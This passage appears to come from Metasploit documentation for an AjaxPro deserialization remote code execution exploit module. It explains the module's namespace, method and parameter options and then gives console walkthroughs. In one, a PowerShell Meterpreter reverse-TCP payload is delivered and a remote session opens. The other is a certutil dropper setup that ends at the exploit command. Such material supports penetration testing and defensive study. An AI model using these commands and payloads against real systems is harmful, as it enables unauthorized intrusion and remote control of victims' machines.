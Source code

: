 > Default value is the namespace in which the default vulnerable method exists in
> versions before 21.10.30.1 is defined

### Method

The name of vulnerable method, which is set to `AddItem` by default.

> The method which accepts a parameter type `object` which is
> assignable from `ObjectDataProvider`

> Default value is the name of the default vulnerable method which exists in versions
> before 21.10.30.1

### Parameter

The name of vulnerable parameter which, is set to `item` by default.

> The exact parameter name

> Default value is the name of the parameter of the default vulnerable method
> which exists in versions before 21.10.30.1

## Scenarios

### Windows Command

```
msf > use exploit/windows/http/ajaxpro_deserialization_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/ajaxpro_deserialization_rce) > set rhosts 127.0.0.2
rhosts => 127.0.0.2
msf exploit(windows/http/ajaxpro_deserialization_rce) > set rport 57750
rport => 57750
msf exploit(windows/http/ajaxpro_deserialization_rce) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf exploit(windows/http/ajaxpro_deserialization_rce) > set vhost localhost
vhost => localhost
msf exploit(windows/http/ajaxpro_deserialization_rce) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. And confirmed target method exists.
[*] Sending stage (175686 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:51844) at 2023-10-28 01:27:00 +0800
```

### Windows Dropper

```
msf exploit(windows/http/ajaxpro_deserialization_rce) > use exploit/windows/http/ajaxpro_deserialization_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/ajaxpro_deserialization_rce) > set rhosts 127.0.0.2
rhosts => 127.0.0.2
msf exploit(windows/http/ajaxpro_deserialization_rce) > set rport 57750
rport => 57750
msf exploit(windows/http/ajaxpro_deserialization_rce) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf exploit(windows/http/ajaxpro_deserialization_rce) > set vhost localhost
vhost => localhost
msf exploit(windows/http/ajaxpro_deserialization_rce) > set cmdstager::flavor certutil
cmdstager::flavor => certutil
msf exploit(windows/http/ajaxpro_deserialization_rce) > exploit

```